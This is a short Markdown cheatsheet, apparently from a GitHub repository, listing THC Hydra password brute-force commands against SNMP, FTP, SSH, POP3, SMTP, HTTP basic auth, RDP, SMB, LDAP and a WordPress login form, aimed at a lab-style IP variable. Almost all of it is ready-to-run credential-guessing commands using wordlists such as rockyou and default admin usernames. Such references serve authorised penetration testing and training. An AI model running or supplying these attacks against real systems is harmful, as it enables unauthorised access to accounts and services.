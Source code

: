 ### Hydra-Cheatsheet
Hydra Password Cracking Cheetsheet

The following table uses the $ip variable which can be set with the following command:  

`export ip 10.10.10.1`


| Command | Description |
|-------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------|
| hydra -P password-file.txt -v $ip snmp                                                                                                    | Hydra brute force against SNMP                       |
| hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp                                                                       | Hydra FTP known user and rockyou password list       |
| hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh                                                                              | Hydra SSH using list of users and passwords          |
| hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh                                                                         | Hydra SSH using a known password and a username list |
| hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt                                                                                         | Hydra SSH Against Known username on port 22          |
| hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V                                                                          | Hydra POP3 Brute Force                               |
| hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V                                                                                         | Hydra SMTP Brute Force                               |
| hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin                                                                                 | Hydra attack http get 401 login with a dictionary    |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip                                                           | Hydra attack Windows Remote Desktop with rockyou     |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb                                                             | Hydra brute force SMB user with rockyou:             |
| hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Hydra brute force a Wordpress admin login            |
| hydra -L usernames.txt -P passwords.txt $ip smb -V -f | SMB Brute Forcing |
| hydra -L users.txt -P passwords.txt $ip ldap2 -V -f | LDAP Brute Forcing |
  
  
 ##### references  
[Github User frizb](https://github.com/frizb)
